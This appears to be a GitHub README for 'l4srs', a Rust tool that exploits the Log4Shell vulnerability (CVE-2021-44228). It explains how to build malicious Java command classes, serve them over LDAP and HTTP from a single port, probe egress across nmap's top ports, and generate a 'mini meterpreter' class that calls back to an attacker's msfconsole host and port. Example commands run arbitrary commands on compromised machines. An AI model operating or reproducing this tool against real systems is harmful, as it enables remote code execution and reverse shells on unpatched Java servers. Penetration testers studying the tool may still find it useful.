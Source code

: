 # l4srs
Rust implementation of the Log 4 Shell (log 4 j - CVE-2021-44228)

This version will let you build command classes, dynamically serve
a mini meterpreter that runs in a thread of the exploited Java app,
and runs the LDAP and HTTP servers.  This version servers both the
LDAP and HTTP requests from the same port.

You can run on multiple ports simultaneously to attempt to see 
what ports may be available for egress on for the target machine.

If the request is not LDAP or HTTP it can then proxy the request
to another machine, again on the same port.  If the target machine
has only one egress port you can server LDAP, HTTP and use the same
port to proxy the meterpreter connection to another local port or
another machine.

**This version no longer requires javac to be installed.  It still
allows for dynamic "class building" but does so by altering 
precompiled classes embeded in the executable.**

This version adds the top 100 and top 1000 ports as defined by nmap.
use the --pC100 or the --pC1000 options.

Typical use case is to build command class(es) then run the server.
`l4srs build -c Cmd1 -l firefox -w Calc.exe`
`l4srs build -c TouchMe -l "touch /tmp/me"`

you can then request Cmd1 and this will launch firefox on linux 
and Calc on Windows.  It you request TouchMe it will touch 
/tmp/me on linux and on windows it will not execute anything.

you can then run `l4srs run --pC100` to start the server on the
top 100 ports and can serve Cmd1 or TouchMe.

Additionaly if you request MM:Host:port it will dynamically
create a mini meterpreter class that will reach out to the
host and port in the request.  If your msfconsole is running
on 10.20.30.40 on port 4444 you would request MM:10.20.30.40:4444
this is not built with the build command it is dymaically built
on the request.

This version allows for the building and serving of classes from
an in memory cache.  All of the dynamic MiniMeterpreter classes
no longer touch the file system.  Additionally 2 new flags are
added. The first is --no_fs which will enforce that we never
server any files from the file system.  The other --allow_cmd
will enable dynamic class build by hitting /build_cmd from any
open port with a post request and a json body with fields :
class_name, l_cmd, w_cmd

